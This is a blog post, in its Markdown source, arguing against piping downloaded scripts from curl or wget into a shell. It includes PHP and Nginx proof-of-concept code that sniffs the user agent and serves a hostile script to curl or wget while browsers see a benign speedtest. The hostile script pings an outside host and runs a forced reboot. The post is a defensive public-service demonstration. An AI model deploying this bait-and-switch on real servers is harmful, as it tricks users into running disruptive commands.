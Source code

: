 ```yaml
---
date: 2015-10-09T00:12:03Z
disqus: true
escape_code: true
share: true
title: Please Stop curl/wget'ing Directly to bash/sh
url: /2015/10/09/please-stop-curl-wgeting-directly-to-bash-sh/
---
```


Today, we are going to discuss the dangers of sending the output of a curl or wget command directly to your shell. There are already a few examples on why this is dangerous, with a very clear and concise example available <a href="https://www.seancassidy.me/dont-pipe-to-your-shell.html" target="_blank">here</a> that explains the dangers of connections closing or failing before the transfer is completed. However, I would like to present a much more malicious example. *Sinister, even!* I call it "The Bait-and-Switch."
  
Though this is certainly nothing groundbreaking or even new, this proof of concept is what I hope will end this ridiculous trend of piping downloaded scripts directly to your shell once and for all.
  
Take the following URL, for example: <a href="https://1a4.fr/speedtest/" target="_blank">https://1a4.fr/speedtest/</a>
  
In your browser, the above URL shows a perfectly functional bash script you can use to do some CLI speed tests from DigitalOcean test machines in each of their datacenters. This script will download a 100 MB test file to show basic throughput expectations, and then it will measure the average latency with a series of pings to each test machine. This script by itself is actually quite useful to someone on DigitalOcean or someone considering which datacenter(s) to use in a new setup.
  
Now, let's try to grab the same exact URL using `curl` or `wget` (but **NOT** piping to bash):
  
``` bash
curl https://1a4.fr/speedtest/
```
``` bash
wget -O- https://1a4.fr/speedtest/
```
  
What kind of sourcery is this, you ask? Well, let's just go straight into the explanation. Like I mentioned in the introduction, we wanted to show what happens when there's true malicious intent on the server side. To demonstrate this, a friend and I decided to implement two separate proof of concept solutions to achieve the same bait-and-switch end result. We'll first show his example, written in PHP (he has chosen to remain nameless so you don't associate him with PHP):
``` php
<?php

if (isset($_SERVER['HTTP_USER_AGENT']))
{
    $useragent = strtolower($_SERVER['HTTP_USER_AGENT']);
}

if (!isset($useragent) || empty($useragent) || strpos($useragent, "curl") !== false || strpos($useragent, "wget") !== false)
{
    echo "#!/bin/sh\n";
    echo "#\n";
    echo "# If you are reading this, I fucked up or you pay attention to what you are doing. Friends don't let friends wget/curl into bash.\n";
    echo "# They don't prank them while they're working on their production networks either, so keep that in mind before you link to someone else.\n";
    echo "#\n";
    echo "# If you aren't reading this... well...\n";
    echo "#\n";
    echo "# Every host should have shutdown, right? They all run debian and ubuntu anyway...\n";
    echo " ping -q -s 90 -c 1 speedtest.gparent.org\n";
    echo "# We don't care if this works or not. We made our point\n";
    echo " shutdown -r now Attention all currently logged-in users - I have shutdown privileges and executed a shell script without reading its source code\n";
    echo "exit 0 # Exit cleanly. Very important.\n";
}
else
{
    header('Content-Type: text/plain');
    readfile("./script.sh");
}
?>
```
  
As you can see, this is an extremely basic script that will check the user agent string of the browser/client, and if it matches wget, curl or is blank, the malicious script will be presented as the output. Under any other conditions (browsers and some other downloaders that don't rely on wget or curl), the proper script will be presented to your browser, so you can feel all warm and fuzzy about "inspecting the source" before piping it directly to bash from curl/wget.
  
Here's the example I came up with using only Nginx to determine which of two files to serve (one malicious, one not):
  
``` nginx
## Proof of concept curl|sh bait and switch
location ~ ^/speedtest {
    index speedtest.txt;
    if ($http_user_agent !~* 'curl|wget') {
        root /home/speedtest;
    }
    root /home/speedtest/malicious;
}
```
  
This example is also quite simple, just like the above PHP version, but it requires only Nginx. To create the necessary directory structure, I created `/home/speedtest`, which contains `speedtest/speedtest.txt` and `malicious/speedtest/speedtest.txt` underneath it. I'm sure you can guess which one is the good script and which one is the bad. My example is only matching useragents that contain 'curl' or 'wget' in any case, but leaving any other ones untouched.
  
Easy, huh?
  
I hope our brief lesson has further implanted into your brain the dangers of piping scripts directly to your shell. Please do your civic duty and tell all your friends to watch out for assholes like myself and my anonymous researcher friend when moving about the interwebs, as you never know when we are out to prove a point (or concept)! We hope you will now at least think twice before piping scripts directly into your shell after downloading, and we'd be ecstatic if you *STOPPED DOING IT ALTOGETHER, BECAUSE IT'S JUST PLAIN STUPID*. This concludes our PSA.
